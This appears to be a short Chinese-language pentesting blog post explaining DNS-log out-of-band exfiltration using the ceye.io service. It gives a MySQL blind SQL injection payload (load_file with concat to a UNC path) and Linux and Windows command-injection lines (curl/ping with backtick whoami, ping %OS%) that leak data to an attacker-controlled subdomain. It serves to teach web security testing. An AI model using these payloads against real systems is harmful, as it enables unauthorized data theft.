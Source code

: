 ```yaml
---
title: "利用 dnslog 回显"
date: 2018-02-10T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqli','windows','linux']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



DNS 在解析的时候会留下日志, 通过读取多级域名的解析日志, 来获取信息

简单来说就是把信息放在二级域名中, 传递到自己这, 然后读取日志, 获取信息

利用 dnslog 可以回显 sql 盲注的数据、命令执行的结果等

<!--more-->

知道创宇的 dnslog 平台

`ceye.io`

登录之后 右上角 Profile

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915368.jpg)

Identifier 就是 dnslog 测试地址

访问 test.xxxx.ceye.io

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915418.jpg)

后台 dnslog 记录

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915447.jpg)

# SQL 盲注

以 mysql 为例

`load_file('\\\\xxxx.com\\')`

可以发起网络请求

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915501.jpg)

记录

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915511.jpg)

盲注

`and if((select load_file(concat('\\\\',(PAYLOAD),'.xxoo.ceye.io\\abc'))),1,1)`

因为不能直接 id=1 and select xxx 就用 if 来执行

PAYLOAD 记得写上 limit

# 命令执行

## linux

执行反引号内的内容并作为结果输出

`curl [反引号]whoami[反引号].xxxx.ceye.io`

`ping [反引号]whoami[反引号].xxxx.ceye.io`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915697.jpg)

dnslog

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915704.jpg)

## windows

感觉鸡肋啊…

`ping %OS%.xxoo.ceye.io`

`%OS% 操作系统名称`